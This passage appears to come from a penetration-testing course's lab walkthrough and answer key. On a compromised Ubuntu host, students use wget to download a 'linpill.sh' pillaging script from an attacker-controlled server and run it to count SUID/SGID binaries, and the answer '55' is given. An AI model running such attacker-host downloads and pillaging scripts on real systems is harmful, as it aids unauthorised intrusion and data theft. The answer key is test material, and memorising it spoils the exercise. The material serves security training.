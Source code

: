 Next, students will return to the SSH session and will download the `linpill.sh` bash script using `wget`:

Code: shell

```shell
wget http://PWNIP:8000/linpill.sh
```

```
root@ubuntu:/home/john# wget http://10.10.14.60:8000/linpill.sh

--2025-03-20 09:33:50--  http://10.10.14.60:8000/linpill.sh
Connecting to 10.10.14.60:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7973 (7.8K) [text/x-sh]
Saving to: ‘linpill.sh’

linpill.sh                  100%[========================================>]   7.79K  --.-KB/s    in 0s      

2025-03-20 09:33:50 (17.3 MB/s) - ‘linpill.sh’ saved [7973/7973]
```

Students will execute the `linpill.sh` bash script and will obtain the number of installed binaries with `SUID/GUID` permissions:

Code: shell

```shell
bash linpill.sh
```

```
root@ubuntu:/home/john# bash linpill.sh

<SNIP>

=== Summary of Key Findings ===
Interesting Files Found: 28769
Sensitive Files Found: 2
Writable PATH Directories: 1
SUID/SGID Binaries: {hidden}
Pillaging complete. All data saved to /tmp/Pillaging_ubuntu_2025-03-20_09-41-22
Completed at: 2025-03-20 09:41:41
```

Answer: `55`

# Windows Information Gathering

## Question 1

### "How many TCP ports in total are open on the Windows target?"
